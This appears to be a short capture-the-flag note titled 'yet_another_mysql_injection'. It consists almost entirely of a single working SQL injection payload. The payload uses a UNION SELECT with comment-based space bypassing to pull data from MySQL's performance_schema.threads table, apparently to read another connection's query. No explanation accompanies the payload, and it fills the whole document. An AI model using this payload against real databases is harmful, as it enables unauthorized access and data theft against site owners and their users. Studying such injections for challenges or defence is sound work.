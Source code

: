 
## yet_another_mysql_injection

```
1'union/**/select/**/mid(`11`,65,217)/**/from(select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17/**/union/**/select/**/*/**/from/**/performance_schema.threads/**/where/**/name/**/like'%connection%'/**/limit/**/1,1)t#
```
